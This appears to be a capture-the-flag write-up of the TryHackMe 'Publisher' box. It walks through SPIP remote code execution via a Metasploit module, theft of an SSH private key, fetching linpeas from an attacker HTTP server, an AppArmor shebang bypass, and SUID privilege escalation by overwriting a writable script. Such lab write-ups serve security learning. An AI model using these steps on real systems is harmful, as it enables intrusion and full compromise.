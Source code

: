 # **Publisher | THM**

***

## **Difficulty == Easy**


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/5cd8d676-dee0-49ef-916c-447fabe775f4)

***

First of all start jamming with this track as you solve the box xD 😆


<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/780BUxpCmW9vOVYZsqdLLE?utm_source=generator&theme=0" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>


Running our nmap scan we have


```
# Nmap 7.94SVN scan initiated Thu Jul  4 09:06:41 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.36.191
Warning: 10.10.36.191 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.36.191
Host is up (0.42s latency).
Not shown: 51611 closed tcp ports (conn-refused), 13922 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 09:10:12 2024 -- 1 IP address (1 host up) scanned in 210.99 seconds
```




Navigating to port 80/HTTP we have this website



![](https://i.imgur.com/0UeRidl.png)



Decided to run a directory bruteforce scan and got a `/spip` directory



```
ffuf -ic -u "http://10.10.36.191/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png,.jpg,.jpeg,.html
```




![](https://i.imgur.com/AbNVHWT.png)



Navigating there looks like we have the true **spip** endpoint



![](https://i.imgur.com/TrgUwLr.png)



Searched for exploit and tried out the manual ones but to no avail



![](https://i.imgur.com/D7bG0TF.png)


Later found out that the reason why there is no response is due to the fact that there is meant to be two `oubli` parameter and we have only one, even by adding the other `oubli` parameter, still no response, find out more about this from [here](https://github.com/nuts7/CVE-2023-27372?tab=readme-ov-file)



![](https://i.imgur.com/TJHQbfr.png)



However for some reason metasploit works using this [module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/spip_rce_form.rb) 



```
use exploit unix/webapp/spip_rce_form
set rhosts --
set lhost --
set lport --
set 
```


![](https://i.imgur.com/8dBGEVR.png)


Checking the home directory of the user `think`, i found the `id_rsa` key for this user, meaning we can now login via ssh as this user



![](https://i.imgur.com/TvakKAB.png)


Go ahead and copy the `id_rsa` key for this user and login directly 



```
nano id_rsa
chmod 600 id_rsa
ssh think@10.10.77.4 -i id_rsa
```




![](https://i.imgur.com/xL1BHAN.png)



For some reasons i can't upload files or even write to my own home folder and the temporary folder on this machine


![](https://i.imgur.com/4YiyNMM.png)



However i found out there is `/var/tmp` which in fact i can write to


![](https://i.imgur.com/yhpjVvb.png)



![](https://i.imgur.com/aUvwBlr.png)




Then i transferred `linpeas.sh` to the box ASAP



```bash
# Attacker
python3 -m http.server 80

# Victim
wget 10.2.15.115/linpeas.sh
```



![](https://i.imgur.com/DoOBjGf.png)




Something seems fishy after running linpeas, there is a world writable file called `run_container.sh` in the `/opt` directory




![](https://i.imgur.com/Yoj3nxZ.png)



....And there is also a suspicious SUID file called `run_container`


![](https://i.imgur.com/DFsjWvL.png)


Using the strings command on this file looks like the SUID binary calls the file in the `/opt` directory, interesting!!


![](https://i.imgur.com/DjgAXgS.png)


Navigating to the `/opt` directory we get a permission denied


![](https://i.imgur.com/28VEvdJ.png)


However there is an hint on getting root on the tryhackme website



![](https://i.imgur.com/mZL3WWT.png)



checking the `apparmor` profile we can see that there is a rule set for our currently default shell `/usr/sbin/ash`



```
cd /etc/apparmor.d
echo $SHELL
```



![](https://i.imgur.com/Kvccwjh.png)


> **AppArmor** (Application Armor) is a Linux security module that allows the system administrator to restrict programs' capabilities with per-program profiles.


According to the rules we have been denied access as following:

- denied read access to `/opt`
- denied write access to `/opt` due to the (`**`) at the end of the rule
- denied write access to `/tmp`, `/dev`, `/var`, `/home/**`
- Memory map, read, inherit and write permissions allowed on `/usr/bin/**`, `/usr/sbin/**`



![](https://i.imgur.com/iumwmKs.png)



No wonder we can't write or read the `/opt` directory directly, however we are able to at least cat out the file

```
cat /opt/run_container.sh
```


![](https://i.imgur.com/auG649x.png)



After several thought and trials i found this [YouTube video](https://www.youtube.com/watch?v=0FpXW7J-eX0) that helped me where we can actually create all our commands in a file and execute directly using the shebang bypass.


So what do we do ??


Since we have a restriction policy for our current shell in other to bypass this we need to start bash in a new process entirely, soo first of all let create a `.sh` file with all of our commands


```bash
cd /var/tmp
nano cmd.sh

# Paste Content Below

#!/bin/bash

echo "/bin/bash -p" > /opt/run_container.sh
```




![](https://i.imgur.com/1eVlIcb.png)


Now grant executable permissions and run with `./` not `bash` cos you are creating a bash process inside the `ash` shell which won't be executed. You can read more about this from [here](https://gist.github.com/sec-fortress/22a18ecba4fe03028892c1120bdbb82d)


```
chmod +x cmd.sh
./cmd.sh
```



![](https://i.imgur.com/SPQpzZx.png)




Then run the `run_container` SUID file to get root



![](https://i.imgur.com/lk9Uyqf.png)



Congratzzzz, Que se diviertan Amigos 🌠



![](https://i.imgur.com/hRlS5Hi.png)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

